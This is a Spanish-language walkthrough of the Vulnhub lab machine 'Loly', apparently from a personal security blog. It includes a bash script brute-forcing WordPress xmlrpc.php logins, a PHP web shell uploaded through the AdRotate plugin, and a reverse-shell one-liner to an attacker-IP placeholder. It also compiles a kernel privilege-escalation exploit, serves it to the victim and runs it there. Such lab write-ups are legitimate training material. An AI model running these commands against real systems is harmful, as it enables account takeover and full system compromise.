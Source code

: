 ```yaml
---
layout: single
title: Loly - Vulnhub
date: 26/10/2023
classes: wide
header:
  teaser_home_page: true
  icon: /assets/images/vulnhub.png

tags:
  - Web Enumeration
  - WordPress Enumeration
  - Abusing xmlrpc.php
  - Bash advanced
  - Abusing AdRotate Manage Media > RCE
  - Kernel Exploitation
  - fácil
  - linux
---
```


Para vulnerar esta máquina, debemos hacer fuzzing en la IP de la máquina víctima para descubrir el directorio del CMS, también debemos enumerar el CMS, para tener una pista, luego de enumerar bien el directorio del CMS descubriremos un el recurso del cual podemos aprovecharnos para obtener usuarios válidos mediante un ataque de fuerza bruta con un script en bash, una vez hecho esto aprovecharnos del plugin qué tiene el CMS para subir un archivo malicioso, del cual nos aprovecharemos para llevar a cabo un RCE.



# PortScan
____

```
 # Nmap 7.93 scan initiated Thu Oct 26 12:15:10 2023 as: nmap -sCV -p80 -oN targeted 192.168.204.155
 Nmap scan report for loly.lc (192.168.204.155)
 Host is up (0.00065s latency).
 
 PORT   STATE SERVICE VERSION
 80/tcp open  http    nginx 1.10.3 (Ubuntu)
 |_http-server-header: nginx/1.10.3 (Ubuntu)
 |_http-title: Welcome to nginx!
 MAC Address: 00:0C:29:C2:90:A8 (VMware)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Thu Oct 26 12:15:17 2023 -- 1 IP address (1 host up) scanned in 7.68 seconds
```

# Sitio Web
____

![](/assets/images/loly/Pasted image 20231026142343.png)

El sitio web de Loly es bastante básico, por lo que procedemos a buscar nuevas rutas mediante el fuzzing.


```
gobuster dir -u http://192.168.204.155 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
```

```
/wordpress/           (Status: 200) 
```

El directorio tiene un enlace a un vhost con nombre "**loly.lc**". Agregamos esto a nuestro servidor en el "/etc/hosts" para poder ver el directorio "wordpress" con su respectivo estilo.

Indagando en el Wordpress, vemos un sólo post de único usuario

![](/assets/images/loly/Pasted image 20231026143125.png)

Por lo que ya sabemos un usuario válido.

# Enumeración WordPress
_____

```
gobuster dir -u http://192.168.204.155/wordpress/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash -x php,wp
```

Veremos qué tenemos el "**xmlrpc.php**" expuesto, y otros directorios.
```
/index.php            (Status: 301) [Size: 0] [--> http://192.168.204.155/wordpress/]
/wp-content/          (Status: 200) [Size: 0]                                        
/wp-login.php         (Status: 200) [Size: 6744]                                     
/wp-includes/         (Status: 403) [Size: 178]                                      
/wp-trackback.php     (Status: 200) [Size: 135]                                      
/wp-admin/            (Status: 302) [Size: 0] [--> http://loly.lc/wordpress/wp-login.php?redirect_to=http%3A%2F%2F192.168.204.155%2Fwordpress%2Fwp-admin%2F&reauth=1]
/xmlrpc.php           (Status: 405) [Size: 42]   
```

![](/assets/images/loly/Pasted image 20231026143323.png)

Y nos dice que el XMLRPC sólo acepta peticiones por POST, por lo qué podríamos tratar de abusar de este recurso para obtener las credenciales válidas mediante un script en Bash, y para corroborarlo debemos mandarle una solicitud con el método GET con una estructura XML qué nos permita listar los métodos disponibles del recurso XMLRPC, y sí el método "wp.getUsersBlogs" está activo, podremos realizar un script en bash que mediante fuerza bruta nos permita obtener las credenciales válidas.

```
curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml | grep "wp.getUsersBlogs"
```

y como vemos el método está activo.
```
<value><string>wp.getUsersBlogs</string></value>
```

# Fuerza Bruta XMLRPC en bash.
____

Nos montamos este script en bash.
```
#!/bin/bash


function createXML(){
  password=$1

  xmlFile="""
<?xml version=\"1.0\" encoding=\"utf-8\"?>
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>loly</value></param>
<param><value>$password</value></param>
</params>
</methodCall>"""


  echo $xmlFile > file.xml
  response=$(curl -s -X POST "http://loly.lc/wordpress/xmlrpc.php" -d@file.xml)
  if [ ! "$(echo $response | grep "Incorrect username or password.")" ]; then
    echo -e "\n[+] La contraseña para 'loly' es: $password"
    exit 0 
  fi 

}


cat /usr/share/wordlists/rockyou.txt | while read password; do 
  createXML $password

done
```

Una vez ejecutado, nos dará las credenciales válida del usuario "loly".


# Abuso Plugin AdRotate.
____

Sí nos fijamos en el plugin AdRotate, podremos subir archivos en formatos .zip y automáticamente se descomprimirían.

![](/assets/images/loly/Pasted image 20231026144909.png)

Por lo que podemos aprovecharnos de subir un código malicioso en **PHP** comprimido el cual nos permita llevar a cabo un RCE desde la URL, para ello debemos convertirlo en zip y posteriormente subirlo.

El código malicioso .PHP tendrá lo siguiente:
```
<?php system($_GET['cmd']); ?>
```

Lo convertimos a zip, para posterior a ello subirlo en el plugin AdRotate, el cual lo descomprimirá y tan sólo se quedará con la extensión .PHP, pero para aprovecharnos de este archivo malicioso que subimos, debemos saber donde se guarda, por lo qué abajo nos deja una pista, que el directorio final sería /banners, y si nos fijamos en el fuzzing que hicimos anteriormente había un directorio /wp-content, donde suele guardarse el contenido de los WordPress, por lo qué el recurso estaría en "/wp-contet/banners/nombre_del_recurso_subido"

![](/assets/images/loly/Pasted image 20231026145053.png)

Y ya desde la URL estamos llevando a cabo un RCE, por lo que podemos entablarnos una Reverse Shell con el típico one line y conectarnos a la máquina.
```
http://loly.lc/wordpress/wp-content/banners/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/ip_atacante/443%200%3E%261%22
```

# Escalada de Privilegios.
____

```
uname -a
Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
Sí buscamos esta versión de Kernel en searchsploit, veremos que es vulnerable a escalada de Privilegios. 

![](/assets/images/loly/Pasted image 20231026150048.png)

Por lo que obtenemos este script, para compilarlo, subirlo a la máquina víctima & ejecutarlo desde allí.
```
searchsploit -m linux/local/45010.c
mv 45010.c dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
python3 -m http.server 80
```
Y ya desde la máquina víctima obtenemos el recurso donde tengamos de escritura.
```
wget ip_de_atacante/dirty
chmod +x dirty
./dirty
```
y así escalaremos como ROOT.

![](/assets/images/loly/Pasted image 20231026150312.png)
